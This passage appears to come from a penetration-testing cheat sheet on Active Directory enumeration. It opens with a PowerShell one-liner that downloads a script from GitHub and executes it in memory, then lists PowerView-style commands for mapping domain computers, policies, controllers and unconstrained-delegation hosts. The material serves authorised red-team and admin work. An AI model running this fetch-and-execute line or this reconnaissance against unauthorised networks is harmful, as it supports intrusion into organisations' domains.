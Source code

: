 {% code overflow="wrap" %}
```powershell
iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory
```
{% endcode %}

## General Enumeration

### Domain Computer Enumeration

```powershell
# List all computers in current Domain
Get-DomainComputer
Get-DomainComputer | Select Name,Description | Sort Name

# Ping all alive computers in current Domain
Get-DomainComputer -Ping

# List all computers with select Operating System
Get-DomainComputer -OperatingSystem "Windows 10 Pro"
Get-DomainComputer -OperatingSystem "Windows 7*"
Get-DomainComputer -OperatingSystem "Windows 8*"
Get-DomainComputer -OperatingSystem "Windows xp*"

# Get Computer objects that have Unconstrained Delegation
Get-DomainComputer -Unconstrained
```

### Domain Enumeration

```powershell
# Domain Information
Get-NetDomain

# Domain Policy Information
Get-DomainPolicy
(Get-DomainPolicy)."SystemAccess"
(Get-DomainPolicy –domain <Domain>)."systemaccess"
(Get-DomainPolicy)."KerberosPolicy" 

# Get Domain SID
Get-DomainSID
```

### Domain Controller Enumeration&#x20;

```powershell
# Get all Domain Dontrollers
Get-NetDomainController

# Get Primary Domain Controller
Get-NetDomain | Select-Object 'PdcRoleOwner'

# Get Domain Controller in different Domain
Get-NetDomainController -Domain <Domain>
```
